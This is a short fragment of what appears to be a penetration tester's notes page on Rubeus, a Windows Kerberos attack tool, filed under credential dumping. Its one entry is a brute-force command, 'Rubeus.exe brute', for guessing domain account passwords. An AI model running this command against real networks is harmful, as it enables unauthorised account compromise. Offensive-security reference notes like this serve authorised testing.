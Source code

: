 # [[03 - Offensive Infrastructure/E - Setup Machine/0x03 - Bring Your Own Land/Windows/OS Credential Dumping/Rubeus|Rubeus]]

## 01 - Brute Force

```
C:\> Rubeus.exe brute /password:<password> /noticket
```